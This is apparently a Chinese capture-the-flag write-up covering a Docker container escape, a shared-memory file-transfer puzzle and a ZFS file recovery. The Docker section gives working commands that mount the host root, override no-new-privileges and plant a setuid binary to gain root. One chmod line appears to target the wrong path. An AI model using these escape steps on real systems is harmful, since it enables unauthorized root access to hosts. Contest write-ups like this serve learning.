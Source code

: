 这道题的ZModem真的有点折磨人了，不知道这是什么上古时期的协议。费了半天劲找到secureCRT能够支持，终于算是知道怎么传输文件了。

第一小题还是比较简单的，只要将外部根目录挂载进docker内部就行了。需要注意的是flag是`/dev/vdb`的软链接，所以要把这个block设备一同挂载进去

```
gunzip hack.tar.gz
sudo docker image load < hack.tar
sudo docker run --rm -u 1000:1000 --ipc=host --device=/dev/vdb -it -v /:/outside hack
```



第二小题可以发现增加了`--security-opt=no-new-privileges`选项，如果真的加载了这个选项是不会有额外权限的，那怎么办呢？

其实这个选项是可以override的，只要再后面再写一遍`--security-opt="no-new-privileges=false"`就可以了



真正增加困难的是，这一次不允许用`-device`选项挂载`/dev/vdb`了，这就意味着我们必须再docker外获得root权限才可以。用`mount`命令研究了一下文件挂载选项，发现大部分的地方都是`ro,nosuid`的，只有`/var/lib/docker`是个例外，这意味着我们可以再docker里访问这个路径，在里面放置一个suid文件来读取flag

```
base64 -d < hack.tar.gz.b64 > hack.tar.gz
gunzip hack.tar.gz
sudo docker image load < hack.tar
sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 --security-opt="no-new-privileges=false" --ipc=host -it -v /:/outside hack


chmod 755 /outside/var/lib/docker
cp /bin/helper /outside/var/lib/docker
chmod +s /outside/var/lib/docker
```

## 看不见的彼方

第一题我还是用共享内存！和两年前完全一样~

由于文件本身就在`tmpfs`在内存中，使用`mmap`读取文件是不需要额外占用内存空间的。程序各自开辟一块1M的共享内存空间，然后循环互换数据就可以了。



第二题稍微困难一些二，我想到的使用`ftruncate`来截断或者扩展文件。也就是说Alice每传输1M的数据，就将`file`文件截短1M，节省出来的空间用来写`file2`，然而这就导致可能有一些文件传输过去就是倒序的，不过这问题不大，直接在`mmap`的内存空间中倒一遍就行了。

唯一我不太理解的一点是，我用`rename`和`unlink`都失败了？这个目录我是有读写权限的，并不太明白这两个调用为什么会失败，等有时间了再继续研究一下~所幸后来直接开了个临时文件，继续用`ftruncate`的方式把`file`一点点挪成了`file1`。



## ZFS 文件恢复

看到ZFS我最初还是很头疼的，完全不知道ZFS是个什么格式，看了specification之后就更懵了。

搜了一下ZFS恢复数据的工具，找到一个叫UFS Explorer FileRecovery的，能够搜到两个文件，并且显示了文件修改时间等信息。但我看那时间戳乱七八糟的以为是工具有问题，最开始就给忽略了。

用binwalk跑了一下，它搜索到了一个shebang，一看好嘛！正好就是`flag2.sh`直接明文存在在文件中，看了一下代码逻辑是需要读取`flag1.txt`和`flag2.sh`的访问时间和修改时间，回头一看想起来工具里的时间戳。编码之后尝试了一下居然就是正确的！这工具有点强大呢。

